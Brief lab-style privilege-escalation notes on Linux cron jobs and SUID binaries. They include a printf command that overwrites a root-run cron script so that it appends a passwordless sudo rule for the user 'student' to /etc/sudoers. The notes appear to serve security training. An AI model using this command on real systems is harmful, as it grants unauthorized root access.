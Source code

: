 
<h4>Cronjobs</h4>

To specify where the path for the crontab is specified
```
grep -rnw /usr -e "/home/student/message"
```
If there's no text editor to edit your cronjob
```
printf '#!/bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh
```



<h4>Exploiting SUID Binaries</h4>
When it is an executable, you can use strings to check what it does
```
strings welcome
```

